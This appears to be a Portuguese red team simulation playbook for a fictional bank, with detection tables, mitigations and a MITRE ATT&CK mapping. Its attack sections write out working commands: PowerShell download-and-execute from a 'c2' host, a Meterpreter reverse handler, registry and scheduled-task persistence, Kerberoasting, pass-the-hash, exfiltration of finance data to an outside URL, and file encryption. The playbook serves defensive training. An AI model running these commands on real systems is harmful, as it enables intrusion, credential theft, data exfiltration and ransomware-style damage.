 # Playbook de Simulação Red Team — Cenário Setor Financeiro

![Red Team Simulation](https://img.shields.io/badge/Red%20Team-Simula%C3%A7%C3%A3o-red?style=for-the-badge)
![MITRE ATT&CK](https://img.shields.io/badge/MITRE-ATT%26CK-blue?style=for-the-badge)
![Status](https://img.shields.io/badge/Status-Conclu%C3%ADdo-brightgreen?style=for-the-badge)

---

## Índice
- [Objetivo de Negócio](#1-objetivo-de-negócio-impacto-simulado)
- [Acesso Inicial](#2-acesso-inicial--phishing-direcionado)
- [Execução e Persistência](#3-execução-e-persistência)
- [Movimento Lateral e Coleta](#4-movimento-lateral-e-coleta)
- [Exfiltração / Impacto](#5-exfiltração--impacto)
- [Detecção, Contenção e Mitigação](#6-detecção-contenção-e-mitigação)
- [Mapeamento MITRE ATT&CK](#7-mapeamento-mitre-attck)
- [Controles Compensatórios](#8-controles-compensatórios)
- [Conclusão](#9-conclusão)
- [Referências Externas](#10-referências-externas)
- [Diagrama MITRE ATT&CK](#-diagrama-da-cadeia-de-ataque-mitre-attck)

---

## 1. Objetivo de Negócio (Impacto Simulado)
- Avaliar a resiliência contra **comprometimento do Active Directory**.  
- Testar capacidade de detecção e resposta a **ransomware + exfiltração de dados**.  
- Impacto simulado:
    - Indisponibilidade de serviços de internet banking e pagamentos.
    - Vazamento de dados bancários e PII (informações pessoais).
    - Penalidades regulatórias (BACEN, LGPD) e danos à reputação.

---

## Fluxo do Ataque (Diagrama Mermaid)
```mermaid
flowchart TD
    A[Phishing Direcionado] --> B[Execução do Payload PowerShell]
    B --> C[Persistência via Registro / Tarefas]
    C --> D[Enumeração do AD]
    D --> E[Kerberoasting / Movimento Lateral]
    E --> F[Dump de Credenciais e NTDS]
    F --> G[Exfiltração de Dados]
    G --> H[Impacto: Ransomware / Vazamento]
```

---

## 2. Acesso Inicial – **Phishing Direcionado**
Vetor: e-mail com anexo malicioso ou link falso.  
Exemplo de comandos:
```bash
macro_pack.exe --template=word --payload="powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')" --obfuscate

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.10.10.5
set LPORT 443
run
```

**MITRE ATT&CK:** T1566.001 (Phishing com Anexo), T1059 (PowerShell).

---

## 3. Execução e Persistência
Execução in-memory + persistência via registro e tarefas agendadas:
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OneDriveUpdate /t REG_SZ /d "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/loader.ps1')" /f

schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/update.ps1')" /sc minute /mo 30
```

**MITRE ATT&CK:** T1547.001 (Registro), T1053.005 (Tarefas Agendadas).

---

## 4. Movimento Lateral e Coleta
Enumeração e exploração:
```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | select Name, ServicePrincipalName
net group "Domain Admins" /domain

Invoke-Kerberoast
GetUserSPNs.py finbank.local/user:password -dc-ip 10.10.10.10 -request

crackmapexec smb 10.10.10.10 -u admin -H <NTLMHASH>
rpcclient -U user%pass 10.10.10.10
setuserinfo2 targetuser 23 "NovaSenha123!"
```

**MITRE:** T1087.002 (Enumeração de Contas), T1558.003 (Kerberoasting), T1021.001 (SMB).

---

## 5. Exfiltração / Impacto
Compressão e upload simulado:
```powershell
Compress-Archive -Path C:\financeiro\dados\* -DestinationPath C:\Users\Public\relatorio.zip
Invoke-WebRequest -Uri "https://armazenamento-seguro.com/upload" -Method POST -InFile "C:\Users\Public\relatorio.zip"
cipher /e C:\financeiro\dados
```

**MITRE:** T1041 (Exfiltração via C2), T1486 (Criptografia para Impacto).

---

## 6. Detecção, Contenção e Mitigação
| Fase            | Detecção                                      | Mitigação                                      |
|-----------------|-----------------------------------------------|-----------------------------------------------|
| Acesso Inicial  | Alertas EDR, sandbox                         | MFA, bloquear macros, simulações de phishing |
| Execução        | Logs PowerShell (4104), AMSI                 | AppLocker, WDAC                               |
| Movimento       | Eventos 4624, 4768, consultas LDAP           | Restringir ACLs, AES-Only, monitorar queries |
| Exfiltração     | DLP, análise proxy                           | Inspeção TLS, bloquear uploads externos       |

---

## 7. Mapeamento MITRE ATT&CK
| Tática                 | Técnicas                                        |
|------------------------|-----------------------------------------------|
| Acesso Inicial         | T1566.001 (Phishing)                         |
| Execução               | T1059 (PowerShell)                           |
| Persistência           | T1547.001 (Registro), T1053.005 (Tarefas)    |
| Escalação de Privilégio| T1558.003 (Kerberoasting), Abuso de ACLs     |
| Movimento Lateral      | T1021.001 (SMB/WinRM), Pass-the-Hash         |
| Coleta                 | T1087.002 (Enumeração AD)                    |
| Exfiltração            | T1041 (Exfiltração via C2)                   |
| Impacto                | T1486 (Criptografia para Impacto)            |

---

## 8. Controles Compensatórios
- Proteção avançada contra phishing (SPF/DKIM/DMARC, sandbox).
- Endurecimento do AD: AES-Only, modelo tiered admin, Protected Users.
- Segmentação de rede para limitar movimento lateral; restrição SMB.
- SIEM com correlação para TTPs MITRE e honeypots para detecção.

---

## 9. Conclusão
Este exercício demonstra como um ataque direcionado pode **comprometer o AD, exfiltrar dados sensíveis e paralisar operações críticas**.  
**Riscos corporativos identificados:**
- Perdas financeiras por indisponibilidade e fraude.
- Vazamento de dados que impacta **compliance (LGPD, BACEN) e reputação**.
- Persistência furtiva levando a custos altos de remediação e downtime.

**Lições aprendidas:** Implementar **testes ofensivos contínuos e monitoramento defensivo** é essencial para reduzir a superfície de ataque.

---

## 10. Referências Externas
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Protegendo Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices)
- [LGPD – Lei Geral de Proteção de Dados](https://www.gov.br/cidadania/pt-br/acesso-a-informacao/lgpd)
- [BACEN – Política de Segurança Cibernética](https://www.bcb.gov.br/estabilidadefinanceira/politicaseguranca)
- [CIS Critical Security Controls v8](https://www.cisecurity.org/controls/cis-controls-list)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [SANS Recursos de Resposta a Incidentes](https://www.sans.org/incident-response/)

---

## Diagrama da Cadeia de Ataque MITRE ATT&CK
```mermaid
graph LR
    A[Acesso Inicial] --> B[Execução]
    B --> C[Persistência]
    C --> D[Escalação de Privilégio]
    D --> E[Movimento Lateral]
    E --> F[Coleta]
    F --> G[Exfiltração]
    G --> H[Impacto]

    A -->|T1566.001| B
    B -->|T1059| C
    C -->|T1547.001 / T1053.005| D
    D -->|T1558.003| E
    E -->|T1021.001| F
    F -->|T1087.002| G
    G -->|T1041| H
    H -->|T1486| H
```
